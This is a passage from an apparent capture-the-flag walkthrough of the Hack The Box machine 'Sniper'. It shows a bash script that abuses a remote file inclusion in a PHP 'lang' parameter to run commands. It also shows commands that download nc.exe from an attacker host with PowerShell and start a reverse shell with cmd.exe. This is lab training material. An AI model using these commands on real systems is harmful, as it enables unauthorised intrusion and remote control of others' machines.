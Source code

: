 ```shell
#!/bin/bash

HOST=10.10.10.151
CMD=$(urlencode $1)
READ="//10.10.15.171/evil/cmd.php"
#READ="${READ//\\/\/}"

curl -s \
     "http://$HOST/blog/index.php?lang=$READ&0=$CMD" \
| sed '1,60d' \
| head -n -3
```

<a class="image-popup">
![f53edaf5.png](/assets/images/posts/sniper-htb-walkthrough/f53edaf5.png)
</a>

See? So much neater! Now, let\'s see how we can get a reverse shell. I used the following command to download a copy of `nc.exe` from Kali Linux to `C:\Windows\System32\spool\drivers\color`.

```
# ./tidy.sh 'powershell /c iwr http://10.10.15.171/nc.exe -outf \windows\system32\spool\drivers\color\cute.exe'
```

<a class="image-popup">
![773212b4.png](/assets/images/posts/sniper-htb-walkthrough/773212b4.png)
</a>

Sweet. It\'s there. Let's get our reverse shell.

```
# ./tidy.sh 'start \windows\system32\spool\drivers\color\cute.exe 10.10.15.171 1234 -e cmd.exe'
```

<a class="image-popup">
![a45965d7.png](/assets/images/posts/sniper-htb-walkthrough/a45965d7.png)
</a>
